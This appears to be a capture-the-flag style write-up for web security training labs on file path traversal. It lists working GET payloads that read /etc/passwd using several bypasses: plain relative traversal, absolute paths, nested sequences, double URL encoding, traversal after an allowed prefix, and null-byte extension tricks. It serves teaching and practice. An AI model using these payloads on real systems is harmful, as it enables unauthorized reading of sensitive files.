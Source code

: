 # Lab Objective

Description: This lab contains a file path traversal vulnerability in the display of product images. To solve the lab, retrieve the contents of the /etc/passwd file.

Note: Use burp suite to make GET request to solve the lab. Cannot render anything on browser.

### Lab: File path traversal, simple case

Solution: Path Traversal vulnerability located in src property of image tag.

Request on Burp: `GET /image?filename=../../../../../../../../etc/passwd`

### Lab: File path traversal, traversal sequences blocked with absolute path bypass

Additional Task: The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

Solution: Use absolute path instead of relative path.

Request on Burp: `GET /image?filename=/etc/passwd`

### Lab: File path traversal, traversal sequences stripped non-recursively

Additional Task : The application strips path traversal sequences from the user-supplied filename before using it. What the application does is that it removes `..\` or `../` from the path supplied by the image tag.

Nested Traversal Sequences: `....//` or `....\/`

Solution: Use the above sequences instead such that after removing the path traversal sequences, we can still exploit the vulnerability.

Request on Burp: `GET /image?filename=....\/....//....//....//....//etc/passwd`

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

Additional Task: The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

Solution: Double URL Encode `../../../../../../../../../../etc/passwd`

Link to URL Encoder: [https://www.urlencoder.org/](https://www.urlencoder.org/)

Request on Burp: `GET /image?filename=..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd`

### Lab: File path traversal, validation of start of path

Additional Task: The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

Solution: Given that we know that base directory of web application is `image?filename=/var/www/images/*.jpg`, supply that in our exploit to pass the validation

Request on Burp: `GET /image?filename=/var/www/images/../../../../../etc/passwd`

### Lab: File path traversal, validation of file extension with null byte bypass

Additional Task: The application validates that the supplied filename ends with the expected file extension.

Solution: Add null byte in between `/etc/passwd` and `jpeg` to pass the validation

Solution 2: Use [wordlist](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/Traversal.txt) along with Burp Intruder

Request on Burp: `GET /image?filename=../../../../etc/passwd%00.png`


